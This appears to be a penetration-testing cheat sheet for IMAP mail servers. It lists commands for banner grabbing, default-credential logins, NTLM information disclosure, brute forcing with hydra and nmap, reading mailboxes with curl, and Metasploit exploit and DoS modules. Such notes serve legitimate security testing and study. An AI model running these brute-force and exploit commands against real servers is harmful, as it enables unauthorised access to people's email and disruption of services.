 # IMAP Overview

## What is IMAP?

Internet Message Access Protocol (IMAP) is used by the recipient’s email client to fetch messages from the email server and put them in their inbox.

![Untitled](media/c2df7591eeddcf74baf1bc6715352822.png)

**Ports:**
- **Port 143**: Default IMAP non-encrypted port
- **Port 993**: Port for secure IMAP connections

### Port Status Example

| Port     | State | Service          | Version                       |
|----------|-------|------------------|-------------------------------|
| 143/tcp | open  | imap             | Dovecot imapd (Ubuntu)       |

## IMAP Pentesting

**![](media/af8e68b1d4ef60ad4ab180ccb81e05b5.png) ### Shodan Search Query :**
```
port:143, 993
port:143 CAPABILITY
port:993 CAPABILITY
```

**Banner Grabbing**

| **Command**                                          | **Description**                         |
|------------------------------------------------------|-----------------------------------------|
| **nc -nv IP 143**                                    | **Banner grabbing and test connection** |
| **A1 LOGIN “root” “”**                               | **Test login**                          |
| **A1 LOGIN root toor**                               | **Test login**                          |
| **A1 LOGIN root root**                               | **Test login**                          |
| **nmap -p143 -sV --script=banner 192.168.x.x**       | **Scan with nmap**                      |
| **nmap -p143 --script=imap-ntlm-info 192.168.x.x**   | **Scan with nmap**                      |
| **msf \> use auxiliary/scanner/imap/imap_version**   | **Metasploit scan**                     |
| **openssl s_client -connect 192.168.x.x:993 -quiet** | **OpenSSL scan**                        |
| **telnet 192.168.x.x 143**                           | **Telnet connection**                   |

![Untitled](media/106d913331db081744b551504e10b42e.png)

![Untitled](media/37a14970c357616cc251bd45cdec8385.png)

According to the answers to the sent queries, the features of the POP3 implementation (commands, etc.) can be determined.

### IMAP Capabilities

| Command                                        | Description                                    |
|------------------------------------------------|------------------------------------------------|
| `nmap -sV --script=imap-capabilities -p143 10.10.x.x` | Check IMAP capabilities                       |

![Untitled](media/d7daf276120c9fd95b645cb54a24efcb.png)

**Capturing IMAP Traffic**

| Command                                  | Description          |
|------------------------------------------|----------------------|
| `msf > use auxiliary/server/capture/imap` | Capture IMAP traffic |

## NTLM Auth - Information Disclosure

**If the server supports NTLM auth (Windows), you can obtain sensitive info (versions):**

| Command                                                                                   | Description               |
|-------------------------------------------------------------------------------------------|---------------------------|
| `root@kali: telnet example.com 143`                                                     | Connect via Telnet        |
| `* OK The Microsoft Exchange IMAP4 service is ready.`                                   | Service ready             |
| `>> a1 AUTHENTICATE NTLM`                                                                | Start NTLM authentication |
| `+`                                                                                       | Step in NTLM auth        |
| `>> TlRMTVNTUAABAAAAB4IIAAAAAAAAAAAAAAAAAAAAAAA=`                                      | NTLM data                 |
| `+ TlRMTVNTUAACAAAACgAKADgAAAAFgooCBqqVKFrKPCMAAAAAAAAAAEgASABCAAAABgOAJQAAAA9JAEkAUwAwADEAAgAKAEkASQBTADAAMQABAAoASQBJAFMAMAAxAAQACgBJAEkAUwAwADEAAwAKAEkASQBTADAAMQAHAAgAHwMI0VPy1QEAAAAA` | NTLM data                 |

**Or automate this with nmap plugin imap-ntlm-info.nse.**

**Brute Forcing**

| Command                                                                                     | Description              |
|---------------------------------------------------------------------------------------------|--------------------------|
| `hydra -l USERNAME -P /path/to/passwords.txt -f <IP> imap -V`                             | Hydra brute force        |
| `hydra -S -v -l USERNAME -P /path/to/passwords.txt -s 993 -f 192.168.x.x imap -V`         | Secure Hydra brute force |
| `nmap --script=imap-brute --script-args userdb=Users.list,passdb=Passwords.list -p143 192.168.x.x` | Nmap brute force         |

![Untitled](media/4cccdbf82ab68e8dc85445f81df5ad8c.png)

## Evolution

To install Evolution:

```bash
sudo apt install evolution
```

![Untitled](media/9a1a65706c8aaa317a115c632aa0b556.png) ![Untitled](media/cae833a8610c9a5ad244e9001d789622.png)

## **CURL**

Basic navigation is possible with [CURL](https://ec.haxx.se/usingcurl/usingcurl-reademail#imap), but the documentation is light on details, so checking the [source](https://github.com/curl/curl/blob/master/lib/imap.c) is recommended for precise details.

| Command                                                                                                   | Description                                 |
|-----------------------------------------------------------------------------------------------------------|---------------------------------------------|
| `curl -k 'imaps://10.10.x.x/' --user user:pass                                                          | Listing mailboxes (imap command LIST "" "\\*") |
| `curl -k 'imaps://10.10.x.x/INBOX?ALL' --user user:pass                                                 | Listing messages in a mailbox               |
| `curl -k 'imaps://10.10.x.x/Drafts;MAILINDEX=1' --user user:pass                                        | Downloading a message                       |
| `curl -k 'imaps://10.10.x.x/INBOX' -X 'UID SEARCH ALL' --user user:pass                                 | UID search                                  |
| `curl -k 'imaps://10.10.x.x/INBOX;UID=1' --user user:pass                                               | Accessing messages by UID                   |
| `curl -k 'imaps://10.10.x.x/INBOX' -X 'FETCH 1:5 BODY[HEADER.FIELDS (SUBJECT FROM)]' --user user:pass -v 2>&1 | Fetch message headers                       |

**IMAP Vulnerabilities**

| **Command**                                         | **Description**                                   |
|-----------------------------------------------------|---------------------------------------------------|
| **msf \> use exploit/windows/imap/eudora_list**     | **Eudora Qualcomm WorldMail 3.0 [CVE-2005-4267]** |
| **msf \> use auxiliary/dos/windows/imap/fuzz_imap** | **IMAP Fuzzer**                                   |
